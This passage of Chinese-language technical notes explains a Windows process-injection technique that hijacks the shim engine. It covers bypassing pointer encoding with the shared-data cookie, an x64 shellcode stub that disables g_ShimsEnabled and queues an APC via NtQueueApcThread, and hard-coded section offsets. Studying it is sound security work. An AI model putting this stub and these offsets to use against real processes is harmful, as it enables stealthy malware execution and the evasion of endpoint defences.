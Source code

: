 **为什么使用编码**：
- 防止简单的指针覆盖攻击
- 增加利用难度
- 但我们可以使用相同算法编码我们的指针

### 2. SharedUserData 结构

```c
// 固定地址：0x7FFE0000（所有进程共享）
typedef struct _KUSER_SHARED_DATA {
    // ...
    ULONG Cookie;  // Offset: 0x330
    // ...
} KUSER_SHARED_DATA;
```

**特点**：
- 所有进程共享同一个 Cookie 值
- 地址固定，可直接访问
- 父子进程的 Cookie 相同

### 3. Stub Shellcode 结构

```asm
sub rsp, 0x38              ; 分配栈空间
xor eax, eax               ; EAX = 0
xor r9d, r9d               ; R9 = 0 (第4个参数)
and [rsp+0x18], rax        ; 清空栈

; 设置参数
mov rdx, <payload_addr>    ; RDX = payload 地址（第2个参数）
mov ds:<g_ShimsEnabled>, al ; 禁用 shim 引擎
mov r8, <context_addr>     ; R8 = context 地址（第3个参数）
lea rcx, [rax-2]           ; RCX = -2（NtCurrentThread()）

; 调用 NtQueueApcThread
mov rax, <NtQueueApcThread_addr>
call rax

xor eax, eax               ; 返回值 = 0
add rsp, 0x38              ; 恢复栈
ret
```

**关键点**：
1. `g_ShimsEnabled` 必须立即设为 FALSE（防止后续 DLL 加载触发）
2. 使用 `NtQueueApcThread` 队列 APC 而不是直接执行
3. APC 会在 `LdrInitializeThunk` 结束时自动触发

### 4. 硬编码偏移

```c
// 这些偏移特定于 Windows 版本
PVOID g_ShimsEnabled = secData + 0x6cf0;      // .data 节偏移
PVOID g_pfnSE_DllLoaded = secMrdata + 0x270;  // .mrdata 节偏移
```
